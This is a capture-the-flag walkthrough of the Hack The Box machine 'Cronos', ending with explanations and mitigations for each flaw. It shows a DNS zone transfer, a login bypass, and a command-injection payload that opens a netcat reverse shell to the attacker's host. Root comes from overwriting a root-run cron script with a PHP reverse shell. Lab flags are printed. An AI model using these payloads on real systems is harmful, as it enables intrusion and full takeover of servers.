

# Initial Enumeration
Nmap revealed the following open ports
```sh
sudo nmap -sV -sC -A -p- -oA nmap 10.10.10.13

PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:   
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)  
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkOUbDfxsLPWvII72vC7hU4sfLkKVEqyHRpvPWV2+5s2S4kH0rS25C/R+pyGIKHF9LGWTqTChmTbcRJLZE4cJCCOEoIyoeXUZWMYJCqV8crflHiVG7Zx3wdUJ4yb54G6NlS4CQFwChHEH9xHlqsJhkpkYEnmKc+CvMzCbn6CZn9KayOuHPy5NEqTRIHObjIEhbrz2ho8+bKP43fJpWFEx0bAzFFGzU0fMEt8Mj5j71JEpSws4GEgMycq4lQMuw8g6Acf4AqvGC5zqpf2VRID0BDi3gdD1vvX2d67QzHJTPA5wgCk/KzoIAovEwGqjIvWnTzXLL8TilZI6/PV8wPHzn  
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)  
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKWsTNMJT9n5sJr5U1iP8dcbkBrDMs4yp7RRAvuu10E6FmORRY/qrokZVNagS1SA9mC6eaxkgW6NBgBEggm3kfQ=  
|   256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)  
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHBIQsAL/XR/HGmUzGZgRJe/1lQvrFWnODXvxQ1Dc+Zx  
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)  
| dns-nsid:   
|_  bind.version: 9.10.3-P4-Ubuntu  
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))  
| http-methods:   
|_  Supported Methods: GET HEAD POST OPTIONS  
|_http-server-header: Apache/2.4.18 (Ubuntu)  
|_http-title: Apache2 Ubuntu Default Page: It works
```


## Port 80
Looking at port 80 I am first shown the default apache page when going to http://10.10.10.13/ 


Knowing how htb usually works I added cronos.htb to /etc/hosts and was able to view the actual web page. 


Looking around briefly I wasn't able to find anything really useful here. Remembering that DNS service was running and I have confirmed the domain name, I attempted to do a zone transfer, and it worked. 


```sh
┌──(kali㉿kali)-[~/boxes/htb/cronos]  
└─$ dig axfr @10.10.10.13 cronos.htb  
  
; <<>> DiG 9.16.15-Debian <<>> axfr @10.10.10.13 cronos.htb  
; (1 server found)  
;; global options: +cmd  
cronos.htb. 604800 IN SOA cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800  
cronos.htb. 604800 IN NS ns1.cronos.htb.  
cronos.htb. 604800 IN A 10.10.10.13  
admin.cronos.htb. 604800 IN A 10.10.10.13  
ns1.cronos.htb. 604800 IN A 10.10.10.13  
www.cronos.htb. 604800 IN A 10.10.10.13  
cronos.htb. 604800 IN SOA cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800  
;; Query time: 23 msec  
;; SERVER: 10.10.10.13#53(10.10.10.13)  
;; WHEN: Sun Oct 24 04:51:14 EDT 2021  
;; XFR size: 7 records (messages 1, bytes 203)
```


I also added admin.cronos.htb and www.cronos.htb to /etc/hosts.

Looking into admin, I am shown a login prompt. 



Eventually discovered this login was vulnerable to SQL injection with the following payload.


After bypassing the login, I am given access to some Net Tool application. Which does not validate user input, allowing command injection. 


I sent this over to Burpsuite to make it easier, and in the above image it shows that by adding ";whoami" to the host field it executes that command and displayed the results in the response as "www-data".

## www-data Shell

By sending a bash reverse shell here I was able to get a reverse shell on my netcat listener

payload:
```sh
command=ping+-c+1&host=8.8.8.8;echo+"rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.11+443+>/tmp/f"+|+bash
```

listener:
```sh
┌──(kali㉿kali)-[~/boxes/htb/cronos]
└─$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.13] 49830
/bin/sh: 0: can't access tty; job control turned off
$ 
```


I used python to spawn a TTY shell

```sh
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@cronos:/var/www/admin$ 
```


In /home/noulis I do have read access to user.txt

```sh
cat user.txt
51d236438b333970dbba7dc3089be33b
```


A couple manual things I like to do before running linpeas or another enumeration script. One thing is to seard for SUID files. In this case I didnt see anything interesting.

```sh
find / -perm -4000 -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
/bin/ntfs-3g
/bin/ping6
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/passwd

```


cat /etc/passwd shows there is one other user on the box, also knew this from the home dir, but noulis is another user. 

```sh
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:108:112::/var/run/dbus:/bin/false
uuidd:x:109:113::/run/uuidd:/bin/false
dnsmasq:x:110:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
noulis:x:1000:1000:Noulis Panoulis,,,:/home/noulis:/bin/bash
bind:x:112:119::/var/cache/bind:/bin/false
```

I didnt find anything obvious to go off of, so i transferred linpeas and ran that.

```sh
┌──(kali㉿kali)-[~/boxes/htb/cronos]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.13 - - [24/Oct/2021 17:12:16] "GET /lin.sh HTTP/1.1" 200 -
```


```sh
cd /tmp
wget http://10.10.14.11/lin.sh
wget http://10.10.14.11/lin.sh
--2021-10-25 00:12:16--  http://10.10.14.11/lin.sh
Connecting to 10.10.14.11:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 451118 (441K) [text/x-sh]
Saving to: 'lin.sh'

lin.sh              100%[===================>] 440.54K  1.46MB/s    in 0.3s    

2021-10-25 00:12:16 (1.46 MB/s) - 'lin.sh' saved [451118/451118]

chmod +x lin.sh
chmod +x lin.sh
www-data@cronos:/tmp$ 
```


linpeas flagged a scheduled job, with root permissions, as a method of priv esc. This should have been something I checked before, but I missed it.

```sh
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```


Moving into /var/www/laravel, I checked the permissions on artisan

```sh
ls -al artisan
-rw-rw-rw- 1 www-data www-data 5493 Oct 24 14:25 artisan
```

I do have read and write permissions to it. Unforutnatley in my case, someone had beaten me to it and overwrote the original script with their reverse shell. 

## Root Shell

For my approach I took the original php reverse shell that comes with kali stored in /usr/share/webshells/php/php-reverse-shell.php, put in my ip and port that I started a listener on. I uploaded this php file to the target, and then wrote that php script to the artisan file being run by root as a scheduled task.


Download the file to the target and overwrite the artisan file with the php script.
```sh
cd /tmp
wget http://10.10.14.11/rev.php
--2021-10-25 00:38:41--  http://10.10.14.11/rev.php
Connecting to 10.10.14.11:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5491 (5.4K) [application/octet-stream]
Saving to: 'rev.php'

     0K .....                                                 100% 5.35M=0.001s

2021-10-25 00:38:42 (5.35 MB/s) - 'rev.php' saved [5491/5491]

cat rev.php > /var/www/laravel/artisan

```


I waited a few minutes and received a root shell on my netcat listener.
```sh
┌──(kali㉿kali)-[~/boxes/htb/cronos]
└─$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.13] 49928
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 00:48:01 up 15:54,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
whoami
root
# 
```


```sh
cat root.txt
1703b8a3c9a8dde879942c79d02fd3a0
```


# <div align="center">Vulnerabilities</div>

## <div align="center">Zone Transfer</div>
#### Vulnerability Explained
The first vulnerability on this box was that zone transfers were allowed and not restricted. This allowed me to easily obtain the  other A records in the zone. I could have also found the subdomains via gobuster or another similar tool. In this instance all A records pointed to the same IP address, but this will not always be the case and I could have discovered A records pointing to other IP addresses I had not known before. 

#### Mitigation
Mitigation of this vulnerability is important, as restricting zone transfers can aid in limiting the attack surface of an organization by keeping hostnames private. One way to do this is to restrict access to zone transfers to only trusted IP addresses. This can be done in the server config or also through the firewall.  Another method is to use transaction signatures for zone transfers. 

For further information see:

https://beaglesecurity.com/blog/vulnerability/dns-zone-transfer.html

https://www.slashroot.in/secure-zone-transfer-bind-using-tsigtransaction-signatures

## <div align="center">SQL Injection</div>
#### Vulnerability Explained
In the admin web application, the login prompt was vulnerable to SQL injection. Failure to properly sanitize any user controlled input can leave a web application vulnerable to forms of injection. In this case it allowed me to bypass the login prompt and gain access to the Net Tool application.

#### Mitigation
One form of mitigation is to change the code for the login page to properly sanitize user input and contain a list of bad characters to check against. This would prevent these characters from being passed into the SQL query. Another way is to use parameterized statements which help ensure that inputs passed into a statement are treated in a safe way. 

For further information see:

https://www.hacksplaining.com/prevention/sql-injection


## <div align="center">Insecure Application/Does not sanitize user input</div>
#### Vulnerability Explained
The application running on admin.cronos.htb called "Net Tool" failed to sanitize user inputs allowing an attacker to get remote code execution via these input fields. This was the vulnerability that allowed me to get a reverse shell on the system.

#### Mitigation
The code for this application should be reviewed and changed to sanitize user input fields. Since both of the commands being run by the applicaiton are basic and only require an IP address, regex could be used to verify the user is entering an ip address and this input should be filtered against a list of bad characters to remove any of them. The ";" character allowed me to get code execution.


## <div align="center">Scheduled task with root permissions</div>
#### Vulnerability Explained
Cron jobs are a way to schedule tasks to run periodically on a linux system. However, when not properly configured they can lead to a privilege escalation route, as it did on this system. Ths issue is that root is executing a script that www-data has read/write access to. In the case an attacker gains access to the www-data user the /var/www/laravel/artisan file could be overwritten with a php reverse shell to gain root permissions on the system. 

#### Mitigation
The cron job should be set up to run as the www-data user and permissions to execute the file should be granted, instead of running the job as the root user. If it is necessary that the root user execute the cron job, than write permissions should be removed from /var/www/laravel/artisan for all other users.


